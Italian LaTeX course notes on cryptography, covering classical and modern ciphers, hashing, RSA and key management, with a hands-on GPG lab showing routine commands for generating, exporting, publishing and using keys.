Steganografia e crittografia non sono la stessa cosa. La steganografia mira a nascondere l'esistenza stessa del messaggio, mentre la crittografia ne rende incomprensibile il contenuto anche se il messaggio viene intercettato.

Storicamente esistono esempi di entrambe: la tavoletta cerata di Demarato e lo schiavo rapato di Istieo sono esempi di steganografia, mentre Atbash, la scitala spartana e il cifrario di Cesare sono esempi di cifrari classici. In ambito moderno, la steganografia compare per esempio nell'inserimento di informazione nei bit meno significativi di contenuti multimediali.

\subsection{Codici, cifrari e segreto}
Un codice sostituisce tipicamente parole o frasi con altre stringhe e dipende da un dizionario condiviso. Per questo è poco flessibile, ha capacità espressive ridotte e diventa presto scomodo da gestire.

Un cifrario, invece, definisce un algoritmo di cifratura $E$ e uno di decifrazione $D$ tali che il testo in chiaro $m$ venga trasformato in testo cifrato $c = E(m)$, e poi recuperato come $m = D(c)$. Nei sistemi moderni il segreto non deve stare nell'algoritmo ma nella chiave.

\subsection{Principio di Kerckhoffs}
Il principio fondamentale della crittografia moderna è che un sistema deve restare sicuro anche se l'algoritmo è noto all'attaccante. L'unico elemento che deve restare segreto è la chiave.

Questo approccio evita i problemi tipici degli algoritmi segreti: mancanza di revisione pubblica, difficoltà di distribuzione e difficoltà di sostituzione. In pratica, ricordare e scambiare una chiave semplice permette di proteggere contenuti arbitrari senza dover mantenere nascosto l'intero meccanismo.

\noindent\rule{\textwidth}{0.4pt}

\section{Crittoanalisi e robustezza}

\subsection{Modelli di attacco}
La crittoanalisi studia come invertire o aggirare un sistema crittografico. I principali scenari sono forza bruta, attacco a solo testo cifrato, attacco con testo in chiaro noto, attacco con testo scelto e attacchi ``fisici'' o coercitivi come il cosiddetto \textit{rubber-hose cryptanalysis}.

In generale, contro un cifrario noto l'attaccante può sempre tentare due strade: analizzare le proprietà statistiche del testo cifrato oppure cercare la chiave nello spazio delle chiavi possibili. Per questo la sicurezza dipende sia dalla robustezza strutturale dell'algoritmo sia dalla dimensione e gestione dello spazio delle chiavi.

\subsection{Confusione e diffusione}
I due ``mattoni'' classici della robustezza sono confusione e diffusione. La confusione rende opaco il legame tra chiave e testo cifrato, mentre la diffusione disperde nel cifrato le strutture statistiche del testo in chiaro.

Idealmente, una piccola modifica della chiave dovrebbe alterare circa metà del testo cifrato, e una piccola modifica del plaintext dovrebbe avere un effetto analogo sul ciphertext. Questi principi, formulati già nella crittografia classica, restano centrali anche nei cifrari moderni.

\noindent\rule{\textwidth}{0.4pt}

\section{Crittografia classica}

\subsection{Sostituzione monoalfabetica}
La sostituzione monoalfabetica associa a ogni simbolo del plaintext un simbolo del ciphertext. Il cifrario di Cesare è l'esempio più semplice, ma anche una sostituzione arbitraria più ampia resta vulnerabile all'analisi statistica nel linguaggio naturale.

Il motivo è che le frequenze delle lettere non spariscono: vengono solo rinominate. In un alfabeto naturale, lettere, digrammi e trigrammi mantengono una struttura sufficiente a guidare l'attacco.

% ISTRUZIONI PER COMPILARE SENZA ERRORI: 
% Quando avrai l'immagine "Slide 16" togli il simbolo % all'inizio delle 5 righe qui sotto e metti il nome del file corretto.
 \begin{figure}[H]
     \centering
     
\includegraphics[width=0.7\textwidth]{screenshot005.png}
     \caption{Esempio di sostituzione monoalfabetica e frequenze}
 \end{figure}

\subsection{Trasposizione}
La trasposizione non cambia i simboli, ma ne cambia la posizione. È il caso della scitala spartana o di una tabella scritta per colonne e letta per righe.

La trasposizione introduce diffusione ma non elimina del tutto le statistiche del linguaggio. Se usata in modo semplice, può ancora essere attaccata studiando digrammi, trigrammi e possibili dimensioni della griglia.

\subsection{Sostituzione polialfabetica}
Nei cifrari polialfabetici la sostituzione varia nel tempo seguendo una chiave ripetuta. Il Vigenère è l'esempio classico: distribuisce le frequenze di una stessa lettera su più simboli cifrati e migliora la robustezza rispetto alla monoalfabetica.

Resta però attaccabile quando la chiave si ripete periodicamente. Due tecniche classiche sono il test di Kasiski, che cerca ripetizioni nel cifrato per stimare la lunghezza della chiave, e l'indice di coincidenza, che misura quanto la distribuzione delle lettere si discosti dal caso uniforme.

\subsection{One-Time Pad}
Il one-time pad è una sostituzione polialfabetica con una chiave perfettamente casuale, lunga quanto il messaggio e mai riutilizzata. In queste condizioni offre sicurezza perfetta: il ciphertext non permette di distinguere quale plaintext fosse quello corretto.

Il limite è pratico, non teorico. Generare, distribuire e conservare chiavi lunghe quanto i messaggi è estremamente oneroso, e il riuso anche parziale della chiave distrugge la sicurezza del sistema.

\noindent\rule{\textwidth}{0.4pt}

\section{Cifrari moderni}

\subsection{Cifrari a blocchi}
La crittografia moderna parte dagli stessi principi classici ma li applica a blocchi di bit invece che a lettere. Usare blocchi grandi e operazioni ripetute di sostituzione e trasposizione aumenta confusione e diffusione e rende molto più difficile l'analisi statistica.

I cifrari composti applicano più round successivi, ciascuno progettato per aumentare progressivamente il mescolamento interno dei dati. Una delle architetture storiche più importanti è la rete di Feistel.

\subsection{DES e AES}
DES è stato lo standard storico dei cifrari a blocchi: pubblicato nel 1977, usa blocchi da 64 bit e una chiave effettiva da 56 bit. Oggi è considerato superato soprattutto per la dimensione insufficiente della chiave.

AES è lo standard moderno di riferimento. Lavora su blocchi da 128 bit, supporta chiavi da 128, 192 o 256 bit e non usa una struttura di Feistel, ma operazioni basate sull'aritmetica dei campi finiti.

\subsection{Modi di operazione}
Cifrare ogni blocco in modo indipendente è una cattiva idea, perché plaintext uguali producono ciphertext uguali e le modifiche locali non si propagano. Per questo si usano modi di operazione che introducono dipendenza tra i blocchi.

Tra i modi più importanti ci sono CBC, CFB, OFB e CTR. In particolare, CTR realizza un comportamento simile a quello di un cifrario a flusso, mentre CBC usa il blocco precedente per alterare quello corrente.

\subsection{Cifrari a flusso}
Un cifrario a flusso produce una sequenza pseudo-casuale di bit da combinare col messaggio. Il modello ideale resta il one-time pad, ma nei sistemi reali il flusso di chiave viene generato da un algoritmo a partire da un seme condiviso.

\noindent\rule{\textwidth}{0.4pt}

\section{Hash e firme}

\subsection{Funzioni hash}
Le funzioni hash crittografiche producono un'impronta compatta di dimensione fissa a partire da un documento di dimensione arbitraria. Sono funzioni pubbliche e senza chiave, quindi non servono da sole a provare l'identità dell'autore.

Le proprietà richieste sono due: resistenza alla preimmagine, cioè difficoltà di trovare un documento con hash prefissato, e resistenza alle collisioni, cioè difficoltà di trovare due documenti diversi con lo stesso hash. Famiglie note includono MD5, RIPEMD, SHA-2 e SHA-3.

\subsection{Limiti e attacchi}
Un hash usato da solo può aiutare a rilevare alterazioni accidentali, ma non protegge da un attaccante man-in-the-middle che modifichi sia il documento sia il relativo digest. Per ottenere autenticità serve aggiungere un meccanismo che leghi l'impronta a una identità.

Sul piano crittanalitico, la resistenza alle collisioni è soggetta al \textit{birthday attack}: per un hash di $m$ bit, trovare una collisione richiede circa $2^{m/2}$ tentativi, non $2^m$. Inoltre alcune famiglie, come MD5 e SHA-1, hanno difetti noti e non sono più considerate sicure per nuovi impieghi.

\subsection{Length extension}
Alcune costruzioni hash permettono attacchi di \textit{length extension}: conoscendo $H(m_1)$ e la lunghezza di $m_1$, un attaccante può calcolare l'hash di $m_1 \Vert m_2$ senza conoscere direttamente $m_1$. Questo problema riguarda varie funzioni basate su Merkle-Damgård, come MD5, SHA-1 e diverse varianti SHA-2, mentre SHA-3 non soffre di questo limite nella stessa forma.

\noindent\rule{\textwidth}{0.4pt}

\section{Crittografia asimmetrica}

\subsection{Idea generale}
La crittografia asimmetrica usa due chiavi diverse: una pubblica, distribuibile a tutti, e una privata, che resta segreta. Chiunque può cifrare con la chiave pubblica del destinatario, ma solo la corrispondente chiave privata può decifrare.

Questo risolve uno dei problemi più difficili dei sistemi simmetrici: la distribuzione iniziale delle chiavi. Inoltre rende possibile usare la chiave privata anche per autenticare, non solo per mantenere la riservatezza.

\subsection{RSA}
RSA si basa sulla difficoltà computazionale di invertire efficientemente alcune operazioni modulari senza conoscere un segreto strutturale. In fase di generazione si scelgono due primi $p$ e $q$, si calcola $n = p \cdot q$, e si determinano esponente pubblico $e$ ed esponente privato $d$ in modo che siano inversi modulari rispetto a $(p-1)(q-1)$.

La chiave pubblica è $(e,n)$, quella privata è $(d,n)$. La cifratura avviene come $c = m^e \bmod n$, mentre la decifrazione avviene come $m = c^d \bmod n$.

% ISTRUZIONI PER COMPILARE SENZA ERRORI: 
% Quando avrai l'immagine "Slide 18 e 19" togli il simbolo % all'inizio delle 10 righe qui sotto e metti il nome del file corretto.
 \begin{figure}[H]
     \centering
     
\includegraphics[width=0.7\textwidth]{screenshot006.png}
     \caption{Funzionamento dell'algoritmo RSA (1)}
 \end{figure}
 \begin{figure}[H]
     \centering
     
\includegraphics[width=0.7\textwidth]{screenshot007.png}
     \caption{Funzionamento dell'algoritmo RSA (2)}
 \end{figure}

\subsection{Robustezza e limiti di RSA}
Non sono noti algoritmi classici efficienti per invertire l'esponenziazione modulare nel caso generale. Esistono però algoritmi sub-esponenziali per fattorizzare il modulo, quindi la contromisura pratica è usare moduli sufficientemente grandi, oggi almeno dell'ordine di 2048 bit.

RSA è anche sensibile a errori implementativi. Scegliere esponenti pubblici molto piccoli o usare lo schema senza padding corretto può introdurre vulnerabilità pratiche anche se l'idea matematica di base resta solida.

\subsection{Riservatezza, integrità e autenticità}
Per la riservatezza, il mittente cifra il messaggio con la chiave pubblica del destinatario e solo il destinatario può decifrarlo con la propria chiave privata. Per integrità e autenticità, invece, si firma tipicamente l'hash del documento con la chiave privata del mittente.

La verifica avviene usando la chiave pubblica del mittente. Se la verifica riesce, il documento risulta integro e la firma può provenire solo da chi possiede la corrispondente chiave privata, purché la chiave pubblica sia stata associata in modo affidabile alla sua identità.

% ISTRUZIONI PER COMPILARE SENZA ERRORI: 
% Quando avrai l'immagine "Slide 22 e 23" togli il simbolo % all'inizio delle 10 righe qui sotto e metti il nome del file corretto.
 \begin{figure}[H]
     \centering
     
\includegraphics[width=0.7\textwidth]{screenshot008.png}
     \caption{Firma digitale con RSA (1)}
 \end{figure}
 \begin{figure}[H]
     \centering
     
\includegraphics[width=0.7\textwidth]{screenshot009.png}
     \caption{Firma digitale con RSA (2)}
 \end{figure}

\subsection{Sistemi ibridi}
La crittografia asimmetrica è più flessibile ma più lenta della simmetrica. Per questo nella pratica si usano sistemi ibridi: si genera una chiave simmetrica casuale, la si usa per cifrare i dati, e poi si cifra quella chiave con la chiave pubblica del destinatario.

Questo approccio combina le prestazioni di AES o di altri cifrari simmetrici con la comodità di distribuzione delle chiavi tipica dei sistemi asimmetrici. È il modello usato nella maggior parte dei protocolli e degli strumenti moderni.

% ISTRUZIONI PER COMPILARE SENZA ERRORI: 
% Quando avrai l'immagine "Slide 25" togli il simbolo % all'inizio delle 5 righe qui sotto e metti il nome del file corretto.
 \begin{figure}[H]
     \centering
     
\includegraphics[width=0.7\textwidth]{screenshot010.png}
     \caption{Sistemi di cifratura ibridi}
 \end{figure}

\noindent\rule{\textwidth}{0.4pt}

\section{Cenno al quantum}

L'arrivo di computer quantistici sufficientemente potenti non cambierebbe radicalmente la sicurezza della crittografia simmetrica e delle funzioni hash, perché l'effetto principale sarebbe un'accelerazione tipo Grover mitigabile aumentando lunghezza di chiavi e digest. Per la crittografia asimmetrica basata su fattorizzazione o logaritmo discreto, invece, l'algoritmo di Shor rappresenta una minaccia strutturale.

Per questo sono già in corso standardizzazioni di algoritmi post-quantum. Il rischio è soprattutto di medio-lungo periodo, ma la transizione è un tema reale di progettazione.

\chapter{GPG (GNU Privacy Guard)}

\section{Contesto e obiettivo}

GPG (GNU Privacy Guard) è un'implementazione libera dello standard OpenPGP e permette di usare crittografia asimmetrica per cifrare, decifrare, firmare e distribuire chiavi pubbliche. Il laboratorio introduce la generazione di una coppia di chiavi, la gestione del keyring locale, l'import/export delle chiavi e le operazioni base di cifratura e firma.

\noindent\rule{\textwidth}{0.4pt}

\section{Generare una chiave GPG}

Per creare una nuova coppia di chiavi si usa:

\begin{lstlisting}[language=bash]
	gpg --gen-key
\end{lstlisting}

Durante la procedura guidata bisogna scegliere l'identità associata alla chiave, la dimensione della chiave, una data di scadenza e una passphrase di protezione. La dimensione dovrebbe essere almeno pari a 2048 bit, mentre la scadenza è importante perché limita la validità operativa della chiave nel tempo.

\subsection{Perché è importante la passphrase}
La chiave privata non dovrebbe mai essere lasciata non protetta. Anche se il file della chiave resta nel sistema locale, una passphrase robusta riduce il rischio in caso di accesso non autorizzato alla macchina o ai file del keyring.

\noindent\rule{\textwidth}{0.4pt}

\section{Dove si trovano le chiavi}

Le informazioni di GPG sono memorizzate tipicamente nella directory \texttt{\~{}/.gnupg/} dell'utente:

\begin{lstlisting}[language=bash]
	cd ~
	cd .gnupg/
	ls -l
\end{lstlisting}

In questa cartella si trovano il keyring delle chiavi pubbliche, i file di configurazione e la directory contenente le chiavi private. Nelle slide viene richiamato in particolare \texttt{pubring.kbx} per le chiavi pubbliche, \texttt{private-keys.d/} per le chiavi private e \texttt{gpg.conf} per parte della configurazione.

\subsection{Nota pratica}
Capire la struttura di \texttt{\~{}/.gnupg/} è utile sia per il troubleshooting sia per eseguire backup ragionati. È però essenziale trattare con estrema cautela qualunque file collegato alla chiave privata.

\noindent\rule{\textwidth}{0.4pt}

\section{Importare una chiave pubblica}

Una chiave può essere importata da file oppure incollandola direttamente:

\begin{lstlisting}[language=bash]
	gpg --import
\end{lstlisting}

oppure

\begin{lstlisting}[language=bash]
	gpg --import vostrachiavepubblica.pub
\end{lstlisting}

Dopo l'import, GPG mostra il Key ID associato alla chiave. Per verificare la presenza della chiave nel keyring si può usare:

\begin{lstlisting}[language=bash]
	gpg --list-keys
\end{lstlisting}

oppure, se si vuole limitare l'output a una chiave specifica:

\begin{lstlisting}[language=bash]
	gpg --list-keys KEY_ID
\end{lstlisting}

\subsection{Quando usare l'import}
L'import è necessario quando si riceve la chiave pubblica di un altro utente e la si vuole usare per cifrare messaggi a lui destinati o per verificarne firme digitali. Prima di fidarsi davvero della chiave, però, bisogna verificarne l'autenticità con un canale indipendente.

\noindent\rule{\textwidth}{0.4pt}

\section{Esportare chiavi}

\subsection{Esportare la chiave pubblica}
La chiave pubblica è fatta apposta per essere distribuita. Per esportarla in formato ASCII armored:

\begin{lstlisting}[language=bash]
	gpg --output public.pgp --armor --export identita@email
\end{lstlisting}

Il flag \texttt{--armor} produce una rappresentazione testuale facile da condividere tramite file o messaggio.

\subsection{Esportare la chiave privata}
In teoria è possibile esportare anche la chiave privata:

\begin{lstlisting}[language=bash]
	gpg --output private.pgp --armor --export-secret-key vostraidentita@email
\end{lstlisting}

Tuttavia questa operazione è \textbf{fortemente sconsigliata} per uso ordinario. La chiave privata non deve essere distribuita e andrebbe esportata solo in scenari controllati, tipicamente per backup.

Per un backup della chiave privata le slide suggeriscono:

\begin{lstlisting}[language=bash]
	gpg --output backupkeys.pgp --armor --export-secret-keys --export-options export-backup vostraidentita@email
\end{lstlisting}

\subsection{Nota di sicurezza}
Un backup della chiave privata ha senso solo se viene protetto con estrema attenzione. Dal punto di vista operativo, chiunque ottenga quella chiave e la relativa passphrase può impersonare il proprietario o decifrare contenuti destinati a lui.

\noindent\rule{\textwidth}{0.4pt}

\section{GPG, PGP e OpenPGP}

PGP significa \textit{Pretty Good Privacy} ed è il nome storico del sistema e di prodotti proprietari derivati. GPG, o GnuPG, è invece una implementazione libera dello standard OpenPGP.

Dal punto di vista funzionale i formati sono compatibili nella maggior parte degli scenari pratici. Per questo GPG può aprire e decifrare file prodotti in ambienti PGP/OpenPGP, pur restando una soluzione open source e non proprietaria.

\noindent\rule{\textwidth}{0.4pt}

\section{Key server}

I key server permettono di pubblicare e recuperare chiavi pubbliche. Per prima cosa conviene visualizzare il Key ID in formato lungo:

\begin{lstlisting}[language=bash]
	gpg --keyid-format LONG --list-keys a.melis@unibo.it
\end{lstlisting}

Una volta individuato il Key ID, la chiave pubblica può essere inviata a un key server con:

\begin{lstlisting}[language=bash]
	gpg --keyserver pgp.mit.edu --send-keys 9D6A4A7849845D01
\end{lstlisting}

Per recuperare la chiave pubblica di un altro soggetto si può usare:

\begin{lstlisting}[language=bash]
	gpg --keyserver pgp.mit.edu --recv-keys 49845D01
\end{lstlisting}

Le slide citano anche key server alternativi come:
\begin{lstlisting}
	hkp://keyserver.ubuntu.com
	hkp://keys.gnupg.net
\end{lstlisting}

\subsection{Limite concettuale}
Scaricare una chiave da un key server non equivale automaticamente a fidarsi della sua identità. Il key server distribuisce chiavi pubbliche, ma il legame tra chiave e persona deve essere verificato con procedure aggiuntive.

\noindent\rule{\textwidth}{0.4pt}

\section{Cifrare e firmare}

Per cifrare un file con la chiave pubblica del destinatario:

\begin{lstlisting}[language=bash]
	gpg --encrypt --armor -r identita@mail file_da_crittare
\end{lstlisting}

L'opzione \texttt{-r} specifica il destinatario. Le slide ricordano che è possibile cifrare per più destinatari, così che ognuno possa decifrare con la propria chiave privata.

Per cifrare e firmare nello stesso passaggio:

\begin{lstlisting}[language=bash]
	gpg --encrypt --armor --sign -r identita@mail file_da_crittare
\end{lstlisting}

In questo modo si ottiene sia la riservatezza del contenuto sia una firma che aiuta il destinatario a verificarne provenienza e integrità.

\noindent\rule{\textwidth}{0.4pt}

\section{Decifrare}

Per decifrare un file destinato a noi basta usare la nostra chiave privata:

\begin{lstlisting}[language=bash]
	gpg --decrypt file_da_crittare
\end{lstlisting}

Se la chiave privata è protetta da passphrase, GPG la richiederà durante l'operazione. Il comando può essere usato anche per file che includono una firma, nel qual caso GPG prova pure a verificarla rispetto alle chiavi pubbliche presenti nel keyring locale.

\noindent\rule{\textwidth}{0.4pt}

\section{Firmare una chiave pubblica}

È possibile firmare la chiave pubblica di un'altra identità con:

\begin{lstlisting}[language=bash]
	gpg --sign-key identita@mail
\end{lstlisting}

Firmare una chiave significa attestare che, secondo noi, quella chiave pubblica appartiene davvero a quella identità. Questo è uno dei meccanismi alla base della \textit{web of trust} di OpenPGP.

\subsection{Attenzione}
Firmare una chiave è un atto di fiducia crittografica, non un'operazione puramente tecnica. Prima di farlo, bisognerebbe verificare con cura l'identità del proprietario e l'impronta della chiave.

\noindent\rule{\textwidth}{0.4pt}

\section{Riepilogo operativo}

\begin{table}[H]
	\centering
	\begin{tabular}{|p{3cm}|p{7cm}|p{4.5cm}|}
		\hline
		\textbf{Operazione} & \textbf{Comando base} & \textbf{Scopo} \\ \hline
		\textbf{Generare} & \texttt{gpg --gen-key} & Creare coppia pubblica/privata \\ \hline
		\textbf{Importare} & \texttt{gpg --import file.pub} & Aggiungere chiavi al keyring locale \\ \hline
		\textbf{Esportare (pub)} & \texttt{gpg --output public.pgp --armor --export identita@email} & Distribuire la propria chiave pubblica \\ \hline
		\textbf{Esportare (priv)} & \texttt{gpg --output backupkeys.pgp --armor --export-secret-keys --export-options export-backup identita@email} & Eseguire un backup controllato \\ \hline
		\textbf{Inviare a key server} & \texttt{gpg --keyserver ... --send-keys KEY\_ID} & Pubblicare la propria chiave pubblica \\ \hline
		\textbf{Recuperare da key server} & \texttt{gpg --keyserver ... --recv-keys KEY\_ID} & Scaricare la chiave pubblica altrui \\ \hline
		\textbf{Cifrare} & \texttt{gpg --encrypt --armor -r identita@mail file} & Garantire la riservatezza \\ \hline
		\textbf{Cifrare e firmare} & \texttt{gpg --encrypt --armor --sign -r identita@mail file} & Riservatezza + autenticità/integrità \\ \hline
		\textbf{Decifrare} & \texttt{gpg --decrypt file} & Recuperare il plaintext \\ \hline
		\textbf{Firmare una chiave} & \texttt{gpg --sign-key identita@mail} & Attestare fiducia sulla chiave pubblica \\ \hline
	\end{tabular}
\end{table}

\chapter{Chiavi Crittografiche}

\section{Ciclo di Vita e Generazione}
Il ciclo di vita di una chiave crittografica si articola in tre fasi fondamentali: generazione, memorizzazione e distribuzione.

\subsection{Tipologie di Generatori di Numeri Casuali}
La casualità è essenziale per la sicurezza e la randomizzazione dei protocolli crittografici. I numeri generati devono garantire casualità (frequenza bilanciata di zeri e uni), imprevedibilità (impossibilità di dedurre parti della sequenza) e assoluta indipendenza.
\begin{itemize}
	\item \textbf{TRNG (True Random Number Generation):} Sfruttano sorgenti fisiche di entropia (es. il rumore termico o i tempi di arrivo degli interrupt hardware) per garantire un'indipendenza perfetta e un'imprevedibilità assoluta. Il segnale grezzo fisico viene sottoposto a conversione analogico-digitale e poi a "condizionamento" per rimuovere eventuali bias. Nonostante la robustezza, questi sistemi risultano complessi e inefficienti.
	\item \textbf{PRNG (Pseudo Random Number Generation):} Utilizzano algoritmi deterministici. Per garantire sicurezza, richiedono in input un seme iniziale (seed) di alta qualità, tipicamente fornito proprio da un TRNG. Un PRNG robusto deve impedire categoricamente a un attaccante di risalire al seme iniziale o di prevedere i valori futuri, anche conoscendo un'ampia porzione della sequenza già generata.
\end{itemize}

\subsection{Test di Casualità (NIST SP 800-22)}
Per validare la robustezza statistica di un PRNG, si applicano suite di test specifici, come lo standard NIST SP 800-22, che ne prevede in totale 15. I tre test principali presi in esame sono:
\begin{itemize}
	\item \textbf{Frequency test:} È il test più basilare; verifica che il numero complessivo di zeri e uni sia bilanciato e prossimo alle probabilità attese per una sequenza puramente casuale.
	\item \textbf{Runs test:} Valuta il numero e la lunghezza dei "run" (sequenze ininterrotte di bit identici), assicurandosi che la loro distribuzione rispetti rigorosamente le aspettative statistiche per prevenire pattern.
	\item \textbf{Maurer's universal statistical test:} Misura la comprimibilità della sequenza di bit. Una sequenza che risulta comprimibile in modo significativo evidenzia pattern interni, pertanto viene considerata non casuale.
\end{itemize}

\noindent\rule{\textwidth}{0.4pt}

\section{Resistenza degli Algoritmi}

\subsection{Forza Bruta e Limiti Fisici}
La sicurezza di un algoritmo e della rispettiva chiave decresce nel tempo a causa dell'evoluzione tecnologica. La tabella seguente illustra le stime dei tempi necessari per testare interamente lo spazio delle chiavi in base alle risorse economiche impiegate:

\begin{table}[H]
	\centering
	\begin{tabular}{|l|l|l|l|}
		\hline
		\textbf{Risorse (Budget)} & \textbf{DES (56 bit)} & \textbf{AES (128 bit)} & \textbf{AES (256 bit)} \\ \hline
		1 K€ (Individuo) & 16 anni & $10^{22}$ anni & $10^{61}$ anni \\ \hline
		1 M€ (Impresa) & 6 giorni & $10^{19}$ anni & $10^{58}$ anni \\ \hline
		1 G€ (NSA) & 8 minuti & $10^{16}$ anni & $10^{55}$ anni \\ \hline
	\end{tabular}
\end{table}

Oltre all'improbabilità computazionale, la forza bruta si scontra con il limite termodinamico invalicabile della fisica, noto come \textbf{Limite di Landauer}: l'energia minima richiesta per alterare lo stato di un singolo bit è $k \times T \times \ln(2)$. Ad esempio, concentrare e utilizzare l'intera energia emessa dal Sole in un anno consentirebbe appena $4 \times 10^{56}$ variazioni di bit (equivalente a un conteggio esaustivo solo fino a $2^{188}$).

\subsection{Fattorizzazione (Asimmetrica / RSA)}
Nei sistemi asimmetrici, il miglior attacco contro RSA non è la forza bruta sullo spazio delle chiavi, ma la ricerca matematica dei fattori primi del modulo. Un traguardo significativo (nel 2020) ha visto la fattorizzazione di una chiave RSA-250 (829 bit) utilizzando 2700 anni-core di computazione. Ad oggi, si stima che una chiave RSA da 3000 bit sia da considerarsi sicura fino al 2026.

\noindent\rule{\textwidth}{0.4pt}

\section{Memorizzazione e Gestione}
Le chiavi crittografiche richiedono politiche di gestione diametralmente opposte a seconda dello scopo operativo:
\begin{itemize}
	\item \textbf{Chiavi di decifrazione (Riservatezza):} La loro perdita comporterebbe la distruzione irreversibile dei dati cifrati, pertanto necessitano imperativamente di meccanismi di backup (es. tramite \textit{Key escrow} o \textit{Secret sharing}) pur mantenendone la segretezza.
	\item \textbf{Chiavi di firma (Autenticità):} Una chiave compromessa invalida l'identità digitale dell'utente e può essere revocata. Per questo motivo \textbf{non deve mai essere sottoposta a backup}. Il suo utilizzo deve essere sempre vincolato alla volontà del titolare, proteggendola tramite \textit{passphrase} robuste o archiviandola in moduli hardware dedicati (\textit{Hardware Security Module - HSM}).
\end{itemize}

